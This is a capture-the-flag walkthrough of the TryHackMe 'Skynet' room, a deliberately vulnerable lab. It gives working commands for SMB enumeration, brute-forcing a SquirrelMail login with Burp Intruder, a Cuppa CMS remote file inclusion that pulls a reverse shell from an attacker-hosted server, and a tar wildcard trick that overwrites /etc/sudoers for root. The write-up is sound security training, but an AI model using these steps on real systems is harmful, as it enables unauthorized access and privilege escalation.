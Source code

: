 ## Skynet
---
THM Skynet Room Walkthrough: https://tryhackme.com/room/skynet



## Summary
---
- Enum ports and subdirectories
- Enum the Samba shares
- Go into the Anonymous share on SMB and download files
- Use the information in files to get login info for SquirrelMail
- Use Password found in SquirrelMail to log into SMB share for miles (Make sure to use -milesdyson as username)
- Download the file from share and check the subdirectory listed.
- Enum the new subdirectory and navigate to /administrator
- Host a webserver for reverse shell and run Cuppa exploit https://www.exploit-db.com/exploits/25971
- Get User Flag
- Check Cronjobs and exploit the script file running backup with https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa
- Find root flag



## Difficulties/Lessons Learned
---
- Forgot to add username when logging into SMB share
- Learned how to brute force logins with multiple usernames and password lists
- Tried to privesc with a new reverse shell spawned from the root running the cronjob, but it never caught. Not sure why, may try again. The exploit outlined in the medium article worked easily.



## Walkthrough
---
Let's first begin by checking the IP and see if we have a website linked to it.

Visiting the IP leads us to a SKYNET website

![](attachments/Pasted%20image%2020250202211534.png)

Searching does nothing. Let's try enumerating the open ports as well as the subdirectories. 

We will use the following commands

```bash
nmap -sS -sV -sC -Pn 10.10.221.5 


```

Looks like ports 22, 80, 110, 139, 143, and 445 are open and there seems to be a Samba share at 445. 

![](attachments/Pasted%20image%2020250202211735.png)

Gobuster also gives us some subdirectories we can check out.

![](attachments/Pasted%20image%2020250202211909.png)

Let's try enumerating the samba share first with the following command

```bash
smbclient -L //10.10.221.5
```

![](attachments/Pasted%20image%2020250202212048.png)

We have a few shares. Trying to connect to them allows us in the Anonymous share where we can get a file called attention.txt and 3 log files.

Reading the files gives us a message from Miles Dyson which is the same name as the other Samba share we can't access. The log1.txt file also gives us a huge list of what looks like passwords. We may be able to use these on the websites or the other share.

Let's check the directories we got earlier to see if we can find any more info there.

The only page we get access to is squirrelmail with a login prompt. Trying admin/admin doesn't work. Let's try milesdyson with the list we had earlier. It's easier and quicker to test for me than brute forcing the passwords on the smbshare.

![](attachments/Pasted%20image%2020250202214001.png)

We will first capture a login request using burpsuite and then send the request to intruder with the log1.txt file as the password list. I'll also create a quick list of possible usernames in case the login is case sensitive, as well as admin.

![](attachments/Pasted%20image%2020250202214216.png)

Rerouting the web traffic with FoxyProxy to Burpsuite and sending a request gives us this request

![](attachments/Pasted%20image%2020250202214426.png)

After sending it to intruder we have this with the before mentioned payloads.

![](attachments/Pasted%20image%2020250202214534.png)

It looks like we may have a hit. 

![](attachments/Pasted%20image%2020250202214914.png)

Let's try logging in with this information. We are in!

![](attachments/Pasted%20image%2020250202215145.png)

The bottom two email have the same text (one in binary and one in plain text) of some random words, the top email has information about an SMB password.

![](attachments/Pasted%20image%2020250202215256.png)

Let's try logging into the milesdyson share with this since that is who the e-mail is addressed to.

This does not work. The passwords from the password list also do not work.

Let's try connecting via SSH with milesdyson. This also doesn't work.

Let's try connecting to the Samba share as admin or milesdyson. User milesdyson does in fact work!

```bash
smbclient //<TARGET_IP>/milesdyson -U "milesdyson"
```

![](attachments/Pasted%20image%2020250202222028.png)

When checking dir we can see a folder called "notes". Upon inspection it has a files called "important.txt" which I will download with 

```bash
get important.txt
```

Reading it gives us

![](attachments/Pasted%20image%2020250202222257.png)

CMS may stand for Content Management System and the characters may be a domain. Let's see if it is a subdomain of our IP. 

It is a page but it does not help us any further. There are no links on the page. I tried recursively enumerating the subdomains earlier, so let's try that here as well.

![](attachments/Pasted%20image%2020250202222424.png)

```bash
gobuster -u http://10.10.221.5/45kra24zxs28v3yd -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt dir
```

We get a subdomain called /administrator running Cuppa CMS with a login form. Let's try admin/admin and the credentials we learned earlier.

These do not seem to work. Let's see if there is an exploit for Cuppa that is publicly available. A quick google search leads us to https://www.exploit-db.com/exploits/25971

It looks like we can inject a text file that will be read as php and maybe catch a reverse shell. Let's use [pentestmonkeys reverse php script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) since it usually works best for me, set up a listener, and see if this works. We should also host a webserver to upload the payload.

```bash
nc -lvp 4444
```

```bash
python3 -m http.server 80
```

The exploits states the following URL we should use

```bash
http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
```

Adjusted that means we should have the following (assuming we are in the /cuppa directory)

```bash
http://10.10.221.5/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.21.101.68/rev.txt?
```

Let's try running this and see if our listener catches a reverse shell.

It does and we can get our first user flag.

![](attachments/Pasted%20image%2020250202224535.png)

Let's also upgrade the shell with the following commands

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

# Background shell with ctrl+z

stty raw -echo; fg
```

Let's check our permissions with 

```bash
sudo -l
```

Unfortunately, we don't have the ability since we need a password. The one previously does not work.

Let's check cron jobs with

```bash
cat /etc/crontab
```


It looks like we have some backup.sh script running every minute as root. Let's check it out. The script inside reveals the following

```bash
tar cf /home/milesdyson/backups/backup.tgz *
```

So it looks like we are creating a backup of the files in the folder that the scrip is located in. It looks like it backs up ALL files due to * being used. 

After a quick google search it looks like there is a privilege escalation vector here as documented her: https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa

Since we are backing up all files, it looks like we can exploit that with crontabs checkpoints function which allows us to execute an action, and since we are running as root, we should be able to escalate. Following the instructions in the write up above, we are now root! The one thing to note, is that we had to change 

```bash
# 1. Create files in the current directory called
# '--checkpoint=1' and '--checkpoint-action=exec=sh privesc.sh'

echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh privesc.sh'

# 2. Create a privesc.sh bash script, that allows for privilege escalation
#malicous.sh:
echo 'kali ALL=(root) NOPASSWD: ALL' > /etc/sudoers
```

to this, to accomodate for our username (www-data):

```bash
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh privesc.sh'
echo 'www-data ALL=(root) NOPASSWD: ALL' > /etc/sudoers
```

![](attachments/Pasted%20image%2020250203233247.png)
With this privesc, we can now find the root flag in /root and we are done.